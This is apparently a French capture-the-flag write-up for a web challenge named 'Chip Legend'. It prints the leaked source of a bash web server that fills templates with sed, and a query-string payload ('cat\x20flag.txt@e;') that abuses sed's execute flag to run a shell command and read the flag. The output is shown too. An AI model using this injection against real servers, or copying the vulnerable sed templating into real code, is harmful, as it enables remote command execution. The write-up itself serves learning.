 # Chip Legend

## RECON

Information donnee:
- http://REDACTED:9003
- ./flag.txt

Voici le site web:

![alt text](img/site.png)

Si on click sur un jeton

![alt text](img/black.png)

On obtient donc sa valeur avec l'image. 
Regardons la source de code:

```html

<html>
  <head>
    <title> 
      Chip legend
    </title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css">
    <style>
       body {
          background: radial-gradient(#B3B1C3 , #47464D);
       }

      #box {
          position: absolute;
          left: 50%; /* relative to nearest positioned ancestor or body element */
          top: 50%; /*  relative to nearest positioned ancestor or body element */
          transform: translate(-50%, -50%); /* relative to element's height & width */
        }
    </style>
  </head>
  <body>
      <center id="box">

        <h1> Chip Legend </h1>
        <a href="/chip.html?value=5&color=black"> 
          IMG en base64
        </a>

        <a href="/chip.html?value=10&color=red"> 
            IMG en base64
        </a>


        <a href="/chip.html?value=20&color=orange"> 
            IMG en base64
        </a>

        <a href="/chip.html?value=100&color=blue"> 
            IMG en base64
        </a>

      </center>
    <!-- p> Powered by : <a href="/bttpd.sh"> basHTTPd </a> | A unix approach to the web. <p> -->
  </body>
</html>
```

Je constate 2 chose,
- Les parametre `value` et `color` sont passer a `chip.html`
- Powered by : <a href="/bttpd.sh"> basHTTPd </a> | A unix approach to the web.

Je tente d'aller sur $TARGET/bttpd.sh

A ma grande surprise j'ai le code source du serveur

```bash
#!/usr/bin/bash

# basHTTPd !
# UnIx PoWeR FoR ThE WeB
#
read -rd '' RESPONSE << EOF
HTTP/1.0 :code:
Date: $(date)
Server: bttpd/0.1
Content-Type: text; charset=ISO-8859-1
Content-Length: :length:
Connection: close


EOF

WWW="$PWD/www"
ROOT_FILE="$PWD/www/index.html"


serve ( ) {
  ROUTE=$1
  ARGS=$2

  local FILE=""
  local CONTENT=""
  local LENGTH=0

  if [[ "${ROUTE}" == "/" ]]; then
    FILE="${ROOT_FILE}"
  elif [[ "${ROUTE}" == "/bttpd.sh" ]]; then
    FILE="${0}"
  else
    FILE="${WWW}${ROUTE}"
  fi

  if [[ -f "${FILE}" ]]; then

    CONTENT="$(cat "${FILE}")"

    ARGS=$(echo "${ARGS}" | tr '&' ' ')
    for ARG in $ARGS; do
        NAME=$(echo "${ARG}" | cut -d '=' -f 1)
        VAL=$(echo "${ARG}" | cut -d '=' -f 2)
        VAL=$(echo "${VAL}" | tr -d '<' | tr -d '>' | tr -d '"' | tr -d "'") # XSS protection
        CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
    done

    LENGTH="${#CONTENT}"
    [[ "${FILE}" == "${0}" ]] && LENGTH=$((LENGTH-4))

    echo -en "${RESPONSE}" | sed 's/:code:/200 OK/' | sed "s/:length:/${LENGTH}/"
    echo -en "${CONTENT}"

  else
    echo -en "${RESPONSE}" | sed 's/:code:/404 NOT FOUND/' | sed "s/:length:/0/"
  fi

}


handle ( ) {
  read -r REQUEST  

  URI=$(echo "${REQUEST}" | cut -d ' ' -f 2)
  if [[ "${URI}" =~ .*\.\..* ]]; then
    echo -en "${RESPONSE}" | sed 's/:code:/400 BAD REQUEST/' | sed 's/:length:/0/'
    return
  fi

  if [[ "${URI}" == *'?'* ]]; then
    ARGS=$(echo "${URI}"| cut -d '?' -f 2)
  fi

  ROUTE=$(echo "${URI}" | cut -d '?' -f 1)
  if [[ "${ROUTE}" =~ ^/[a-z0-9A-Z/\.]*$ ]]; then
    serve "${ROUTE}" "${ARGS}"
  else
    echo -en "${RESPONSE}" | sed 's/:code:/400 BAD REQUEST/' | sed 's/:length:/0/'
  fi
}

handle
```

# Exploitation

Grosso modo je comprend que dans les fichier .html il y a des places holder comme `:value:` et `:color:` et que le "templating" est fait avec `sed`

En analysant le code source...
```bash
    ARGS=$(echo "${ARGS}" | tr '&' ' ')
    for ARG in $ARGS; do
        NAME=$(echo "${ARG}" | cut -d '=' -f 1)
        VAL=$(echo "${ARG}" | cut -d '=' -f 2)
        VAL=$(echo "${VAL}" | tr -d '<' | tr -d '>' | tr -d '"' | tr -d "'") # XSS protection
        CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
    done
```

Les charactere `>` `<` `"` `'` sont retirer des arguments

Mais ce qui m'a mis la puce a l'oreil...
```bash
CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
```
`s@:$NAME:@$VAL@g`
![alt text](img/sus.png)

Donc, je tente de faire un paylaod pour que la ligne devienne quelque chose comme..
`CONTENT=$(echo "${CONTENT}" | sed s@:color:@cat flag.txt@e) #@g )`

Apres plusieurs tentative et de test locale. `cat\x20flag.txt@e;` fais le travail demander!

```
HTTP/1.0 200 OK
Date: Thu Oct 24 04:31:33 PM UTC 2024
Server: bttpd/0.1
Content-Type: text; charset=ISO-8859-1
Content-Length: 292443
Connection: close

<html>
  <head>
    <title> 
FINCTF-0d81b352888d9ca8ed044551c39af9
    </title>
```
![alt text](img/solved.png)

And rawr does the dinosaur.